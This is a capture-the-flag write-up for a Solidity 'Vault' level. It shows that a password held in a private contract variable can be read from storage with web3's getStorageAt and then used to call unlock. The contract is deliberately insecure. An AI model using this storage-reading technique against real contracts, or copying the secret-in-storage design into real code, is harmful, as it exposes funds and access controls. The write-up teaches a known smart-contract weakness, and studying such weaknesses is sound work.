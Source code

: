 # Vault

>Unlock the vault to pass the level!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

On analyizing the above contract, we observe that our goal is to call the function unlock with the right password as argument so that the boolean variable is set to false.
But this password variable is declared as `private`.

```solidity
 bytes32 private password;
```

What can we do to be able to read this private variable?

When a contract is deployed, the Ethereum Virtual Machine (EVM) allocates a specific amount of storage to the contract based on its size. Storage is divided into slots, each of which can store 256 bits (32 bytes) of data.
This contract storage consists of all the variables declared inside the contract irrespective of their visibility(`public` or `private`).

The web3 js library provides the function `web3.eth.getStorageAt(contract-address, storage-slot)` to serve this purpose.

Analyzing the contract storage, (I am using the browser console for this.)

```javascript
await web3.eth.getStorageAt("0x6D677CBBD80856656CD2A8e9C889E41fc8Eb421B", 0)
```
we get

```
'0x0000000000000000000000000000000000000000000000000000000000000001'
```
which corresponds to the locked variable `bool public locked` which is currently set to `true`. Now accessing the value of the variable password stored at slot 1.

```javascript
await web3.eth.getStorageAt("0x6D677CBBD80856656CD2A8e9C889E41fc8Eb421B", 1)
```
we get the value of the password variable.

Now, we call the function `unlock` with this value,

```javascript
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

After confirming that the value of locked is now set to `false`, we can submit the instance.
